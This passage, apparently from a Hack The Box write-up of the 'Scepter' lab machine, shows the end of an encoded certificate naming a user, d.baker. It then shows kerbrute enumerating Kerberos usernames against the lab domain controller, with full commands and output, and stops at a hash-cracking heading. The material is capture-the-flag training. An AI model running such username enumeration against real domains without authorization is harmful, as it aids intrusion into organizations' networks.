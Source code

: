 ```shell
amVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwFwYJKwYBBAGCNxQCBAoe
CABVAHMAZQByMA4GA1UdDwEB/wQEAwIFoDApBgNVHSUEIjAgBgorBgEEAYI3CgME
BggrBgEFBQcDBAYIKwYBBQUHAwIwQwYDVR0RBDwwOqAjBgorBgEEAYI3FAIDoBUM
E2QuYmFrZXJAc2NlcHRlci5odGKBE2QuYmFrZXJAc2NlcHRlci5odGIwSwYJKwYB
BAGCNxkCBD4wPKA6BgorBgEEAYI3GQIBoCwEKlMtMS01LTIxLTc0ODc5NTQ2LTkx
NjgxODQzNC03NDAyOTUzNjUtMTEwNjBEBgkqhkiG9w0BCQ8ENzA1MA4GCCqGSIb3
DQMCAgIAgDAOBggqhkiG9w0DBAICAIAwBwYFKw4DAgcwCgYIKoZIhvcNAwcwDQYJ
KoZIhvcNAQELBQADggEBAFWYPZ/Y8mSso3zi1qv7Js+Xid0bZ6SB3jURvtQEl8Cg
qdozKurK89xtNPNXRUca4AANvUOApaRAMN3L/d+16mzxe9DEDWvBUd7rVRIrSL88
6wGrw+YIJQGMxB6IKnHGbu4t2gQUOMQgufsX26KU9qxM6WC6VHunYaOe+xS+ATME
MlY6HCeNmfhA+ovH2iRpXWtuDKESjHJG5ZJ3pYo4fT47a2DtAc4xaN80ECaHmwta
qrMrIi+tj8AXLAraDVJtlTFNb80+t3fF+FttL2+HjcG8Op1spwKkFLlsT37QiFdO
ta2X/V1roCSq1/ExhIHWr5u2tkQxJxcmR8mbbM+0tWo=
-----END CERTIFICATE-----
```

| Username |
| -------- |
| d.baker  |

## Username Enumeration

Now we added `d.baker` to a `usernames.txt` file and used `kerbrute` to verify if the `username` was available within the `domain`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ cat usernames.txt 
d.baker
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ ~/opt/05_password_attacks/kerbrute/kerbrute userenum --domain "scepter.htb" --dc dc01.scepter.htb usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/19/25 - Ronnie Flathers @ropnop

2025/04/19 21:14:23 >  Using KDC(s):
2025/04/19 21:14:23 >   dc01.scepter.htb:88

2025/04/19 21:14:23 >  [+] VALID USERNAME:       d.baker@scepter.htb
2025/04/19 21:14:23 >  Done! Tested 1 usernames (1 valid) in 0.182 seconds
```

## Cracking Hashes using John the Ripper
